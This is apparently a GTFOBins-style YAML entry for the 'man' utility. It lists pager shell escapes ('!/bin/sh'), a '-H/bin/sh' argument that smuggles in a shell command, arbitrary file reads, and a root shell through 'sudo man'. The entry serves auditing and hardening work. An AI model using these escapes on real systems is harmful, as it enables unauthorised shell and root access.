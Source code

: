 ```yaml
---
description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        man man
        !/bin/sh
    - description: This only works for GNU `man` and requires GNU `troff` (`groff` to be installed).
      code: |
        man '-H/bin/sh #' man
  file-read:
    - code: man file_to_read
  sudo:
    - code: |
        sudo man man
        !/bin/sh
---
```

